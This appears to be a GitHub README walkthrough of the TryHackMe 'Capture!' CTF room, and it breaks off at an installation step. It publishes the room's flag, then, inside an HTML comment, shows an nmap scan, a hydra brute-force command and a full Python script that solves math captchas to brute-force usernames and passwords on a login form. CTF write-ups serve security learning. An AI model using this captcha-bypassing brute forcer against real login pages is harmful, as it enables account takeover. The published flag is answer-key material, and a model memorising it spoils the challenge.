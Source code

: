 
# <div align="center">[Capture!](https://tryhackme.com/r/room/capture)</div>

<div align="center">
  <img src="https://github.com/user-attachments/assets/b80bf4c0-f7c0-4d57-9365-cfec6de6020a" height="200"></img>
</div>

## Task 1. Download the file.
```
NO need
```
## Tast 2. Bypass the login form
### What is the value of flag.txt?
```
7df2eabce36f02ca8ed7f237f77ea416
```
<!--## Let make a Nmap scan
```
death@esther:~$ nmap 10.10.236.203 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 06:37 IST
Nmap scan report for 10.10.236.203
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```
## Let en=

## As we have both user and pass file let try to brute force login page using hydra.
```
sudo hydra -L usernames.txt -P passwords.txt 10.10.236.203 http-post-form "/login:username=^USER^&password=^PASS^:Error" -V -t 40
```

## Hydra didnt find anything,but when i try to login just to check it return me an error

![image](https://github.com/user-attachments/assets/0ae972ca-ff87-4f06-bbd0-4d1b34b97989)

* ### Too many bad login attempts!
* ### Captcha enabled
* ### Error: Invalid captcha

## We need to buypass captcha by creating own python script . it took help of [This script](https://github.com/sakibulalikhan/thm-capture/blob/main/capture.py)

```

#! /bin/python3

import requests
import argparse

def solveCaptcha(captcha):
    if captcha[1] == '+':
        ans = int(captcha[0]) + int(captcha[2])
    elif captcha[1] == '-':
        ans = int(captcha[0]) - int(captcha[2])
    elif captcha[1] == '*':
        ans = int(captcha[0]) * int(captcha[2])
    elif captcha[1] == '/':
        ans = int(captcha[0]) / int(captcha[2])
    return ans

def crackUsername(url, captcha):
    print('[+] Starting username brute force...\n')
    f = open('./usernames.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={i.strip()}&password=letmein&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        sReq = sReq.text.split('\n')
        if 'does not exist' not in sReq[104]:
            print(f'!!! Username Found: {i.strip()}\n')
            crackPassword(i.strip(), captcha)
        else:
            captcha = sReq[96].split()

def crackPassword(uName, captcha):
    print('[+] Starting password brute force...\n')
    f = open('./passwords.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={uName}&password={i.strip()}&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if len(sReq.text) < 100:
            print(f'!!! Password Found: {i.strip()}\n')
            print(f'!!! Flag: {sReq.text.split()[1][4:-5]}')
            quit()
        else:
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Brute force username and password with captcha.')
    parser.add_argument('--host', '-t', type=str, help='Target host URL')
    args = parser.parse_args()

    if args.host:
        url = f'http://{args.host}/login'
        print(f'[+] Starting bruteforce with target URL: {url}\n')
        
        for i in range(0, 10):
            myData = 'username=admin&password=letmein'
            sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

        crackUsername(url, captcha)
    else:
        print("Error: You have to specify the target host using the --host or -t flag.")
        print("Usage: ./script.py --host $IP")
             
```
## Save this in a file and name somthing with .py extention.
### Install the requirments
